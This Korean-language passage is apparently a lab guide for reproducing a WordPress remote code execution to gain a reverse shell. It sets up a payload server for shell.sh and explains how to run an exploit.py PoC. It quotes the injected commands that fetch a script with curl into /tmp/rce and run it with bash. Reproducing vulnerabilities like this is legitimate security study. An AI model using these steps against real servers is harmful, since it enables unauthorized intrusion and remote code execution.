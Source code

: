 <br>
이제 쉘 스크립트 파일을 업로드하고, 이를 전송해줄 수 있는 **페이로드 서버**를 만들어야한다. 본인의 웹서버가 이미 구축되어 있다면, 이 과정은 스킵해도 된다.<br>
![](2-2.PNG)<br>
본 가이드에서는, sample-server 폴더 내에 있는 [sample-server.py](sample-server/sample-server.py)를 사용해서 간단한 웹 서버를 열어놓을 것이다.<br>
해당 파일에서는 4000번 port를 사용하였는데, 해당 포트 번호는 본인이 원하는 포트 번호로 수정해도 된다.(만약 이미 사용중인 포트라는 에러가 나온다면, 다른 포트로 바꿔보자.)<br>
그리고 `python3 sample-server.py`를 입력하여 웹 서버를 구동하면, 자동적으로 `sample-server.py`와 **같은 폴더에 있는 파일들이 서버의 리소스로 인식된다.** <br>
따라서, 해당 웹 서버가 실행중인 상태에서, `localhost:4000/shell.sh` 혹은 `{your_ip}:4000/shell.sh`로 접속하면 **쉘 스크립트 파일을 다운로드받을 수 있다.** <br>
<br>
이로써, Wordpress서버의 리버스 쉘 획득을 위한 준비는 모두 마쳤다. 이제 Wordpress서버에 POST 요청을 보내는 [PoC코드](exploit.py)를 실행시키기만 하면 된다.<br>
<br>
PoC 코드의 사용방법은 다음과 같다.
```
python3 exploit.py {wordpress_server_url} {shell_download_url}
```
exploit.py 뒤에 붙는 첫 번째 인자에는 **Wordpress 서버의 주소**(`http://your_ip:8080`)를 입력하고, 두 번째 인자에는 **쉘 스크립트를 다운로드 받을 수 있는 웹 서버의 주소**(`your_ip:4000/shell.sh`)를 입력한다.<br>
<br>
![](2-3.PNG)<br>
그 다음으로 PoC 코드의 내부를 살펴보면, 총 2개의 POST 요청을 보내는 것을 알 수 있다.<br>
첫 번째 요청은 `/usr/bin/curl -o/tmp/rce {shell_download_url}`을 실행시키는 패킷이고, 두 번째 요청은 `/bin/bash /tmp/rce`를 실행시키는 패킷이다.<br>